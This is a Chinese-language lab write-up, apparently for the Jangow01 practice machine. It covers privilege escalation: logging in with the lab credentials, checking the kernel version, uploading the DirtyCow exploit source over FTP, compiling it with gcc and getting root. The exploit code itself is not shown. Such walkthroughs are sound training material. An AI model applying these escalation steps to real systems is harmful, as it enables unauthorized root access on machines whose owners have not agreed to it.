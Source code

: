 # 4.  Privilege Escalation

我们通过`jangow01/abygurl69`可以登录靶机系统，但是没有root权限，无法查看root目录下的文件，接下来就是想办法去提权。

登录到靶机上，查看系统版本：

![image-20231108103451120](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311081108689.png)

![image-20231108103418150](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311081109353.png)

![image-20231108103923467](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311081109821.png)

使用的ubuntu 16.04，内核版本为4.4，低版本Linux操作系统，而且存在gcc。

用[DirtyCow](https://dirtycow.ninja/)去提权：

```shell
ftp> put dirtycow-mem.c
local: dirtycow-mem.c remote: dirtycow-mem.c
229 Entering Extended Passive Mode (|||39860|)
150 Ok to send data.
100% |**************************************************************************************************************|  5120      119.09 MiB/s    00:00 ETA
226 Transfer complete.
5120 bytes sent in 00:00 (9.16 MiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||10466|)
150 Here comes the directory listing.
-rw-------    1 1000     1000         5120 Nov 08 08:40 dirtycow-mem.c
-rw-rw-r--    1 1000     1000           33 Jun 10  2021 user.txt
226 Directory send OK.
```

然后在靶机bash中编译一下：

```shell
gcc -Wall -o dirtycow-mem dirtycow-mem.c -ldl -lpthread
```

运行，拿到root权限：

![image-20231108104653672](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311081109052.png)

并在root目录下发现proof.txt：

![image-20231108105345461](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311081109550.png)

**备注**

实测dirtycow-mem不是很稳定，提权后存在导致系统崩溃的情况。

# Notes

靶机无法直接在命令行中直接使用'/'符号，这里可以使用自动补全路径的方式来获取'/'符号。